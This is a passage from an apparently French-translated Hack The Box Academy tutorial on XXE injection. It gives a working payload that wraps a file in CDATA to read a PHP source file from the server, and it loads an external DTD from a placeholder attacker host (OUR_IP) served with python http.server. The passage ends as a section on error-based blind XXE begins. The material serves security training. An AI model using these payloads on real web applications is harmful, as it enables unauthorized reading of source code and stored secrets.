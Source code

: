 Essayons donc de lire le `submitDetails.php`fichier en stockant d'abord la ligne ci-dessus dans un fichier DTD (par exemple `xxe.dtd`), en l'hébergant sur notre machine, puis en la référençant en tant qu'entité externe sur l'application Web cible, comme suit :

```
dsgsec@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
dsgsec@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Maintenant, nous pouvons référencer notre entité externe ( `xxe.dtd`) puis imprimer l' `&joined;`entité que nous avons définie ci-dessus, qui doit contenir le contenu du `submitDetails.php`fichier, comme suit :

Code : xml

```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->

```

Une fois que nous avons écrit notre `xxe.dtd`fichier, l'avons hébergé sur notre machine, puis ajouté les lignes ci-dessus à notre requête HTTP à l'application Web vulnérable, nous pouvons enfin obtenir le contenu du `submitDetails.php`fichier : ![php_cdata](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_cdata.jpg)

Comme nous pouvons le constater, nous avons pu obtenir le code source du fichier sans avoir besoin de l'encoder en base64, ce qui permet de gagner beaucoup de temps lors de la recherche de secrets et de mots de passe dans divers fichiers.

Remarque : Dans certains serveurs Web modernes, nous ne pourrons peut-être pas lire certains fichiers (comme index.php), car le serveur Web empêcherait une attaque DOS causée par l'auto-référence de fichier/entité (par exemple, boucle de référence d'entité XML) , comme mentionné dans la section précédente.

Cette astuce peut devenir très pratique lorsque la méthode XXE de base ne fonctionne pas ou lorsqu'il s'agit d'autres frameworks de développement Web. `Try to use this trick to read other files`.

* * * * *

XXE basé sur les erreurs
------------------------

Une autre situation dans laquelle nous pouvons nous trouver est celle où l'application Web peut ne pas écrire de sortie, de sorte que nous ne pouvons contrôler aucune des entités d'entrée XML pour écrire son contenu. Dans de tels cas, nous serions `blind`à la sortie XML et ne serions donc pas en mesure de récupérer le contenu du fichier en utilisant nos méthodes habituelles.
